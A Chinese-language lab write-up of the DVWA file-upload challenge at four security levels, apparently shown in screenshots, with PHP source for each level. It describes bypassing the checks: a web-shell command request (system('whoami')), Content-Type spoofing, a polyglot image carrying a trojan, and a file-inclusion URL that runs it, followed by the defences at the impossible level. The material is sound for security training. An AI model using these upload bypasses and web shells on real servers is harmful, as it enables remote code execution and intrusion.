








# 一、low
## 1.1 源码
```PHP
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

## 1.2 攻击

思路一：burp suite
```HTTP
POST /hackable/uploads/low.php HTTP/1.1
Host: dvwa:81
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36 Edg/150.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=slohkm1ov5b16e810d0qrsqdal; security=low
Connection: keep-alive

config=system('whoami');
```

思路二：蚁剑

# 二、medium
## 2.1 源码
```PHP
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```
- MIME（Multipurpose Internet Mail Extensions）校验：`$uploaded_type`是从客户端发送的HTTP请求头中的`Content-Type`字段获取的

## 2.2 攻击
application/octet-stream换为image/png


# 三、high
## 3.1 源码
```PHP
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```
- 后缀白名单：通过`strrpos`找到文件名最后`.`的位置，并截取后面的字符串转为小写，文件名必须以`.jpg`、`.jpeg`、`.png`结尾
- 文件内容幻数检测（`getimagesize()`）：读取文件二进制数据，检查是否具有合法的图片文件头（JPEG 的`FF D8 FF`，PNG的`89 50 4E 47`）。
- 图片大小不能少于100kb

## 3.2 攻击
制作图片码 + 文件包含漏洞修改文件名

图片在前，木马在后，图片用`/b`二进制模式，木马用`/a`ASCII模式，保证图片头不损坏



```
http://dvwa:81/vulnerabilities/fi/?page=file://D:\3patience\phpstudy_pro\WWW\dvwa\hackable\uploads\hack.png
```


但很奇怪蚁剑连接不上？


原来是要加cookie

# 四、impossible
## 4.1 源码
```PHP
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );


    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Where are we going to be writing to?
    $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
    //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
    $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
    $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
    $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
        ( $uploaded_size < 100000 ) &&
        ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
        if( $uploaded_type == 'image/jpeg' ) {
            $img = imagecreatefromjpeg( $uploaded_tmp );
            imagejpeg( $img, $temp_file, 100);
        }
        else {
            $img = imagecreatefrompng( $uploaded_tmp );
            imagepng( $img, $temp_file, 9);
        }
        imagedestroy( $img );

        // Can we move the file to the web root from the temp folder?
        if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
            // Yes!
            echo "<pre><a href='{$target_path}{$target_file}'>{$target_file}</a> succesfully uploaded!</pre>";
        }
        else {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }

        // Delete any temp files
        if( file_exists( $temp_file ) )
            unlink( $temp_file );
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
- 之前的`getimagesize()`仅仅检查文件头部，放过了图片尾部或元数据的木马代码。
- 思路一：而这里，后台调用php的GD库`imagecreatefromjpeg`，服务器会把用户上传的图片读入内存，重新绘制渲染新图片，再保存，抹去了图片的额外代码，留下纯粹的像素数据
- 思路二：`$target_file = md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;`这里利用`uniqid()`加上原文件名，进行md5加密运算，生成随机的32位字符串作为新文件名，让攻击者无法得知文件在服务器中的真实名字
- 思路三：严格的if语句，将后缀、大小、MIME类型、内容头部都纳入强白名单体系
```PHP
if( ( strtolower( $uploaded_ext ) == 'jpg' || ... ) &&  // 1. 强后缀白名单（High的优点）
    ( $uploaded_size < 100000 ) &&                       // 2. 限制文件大小
    ( $uploaded_type == 'image/jpeg' || ... ) &&         // 3. 严格校验MIME（Medium的优点）
    getimagesize( $uploaded_tmp ) )                      // 4. 严格校验文件头（High的优点）
```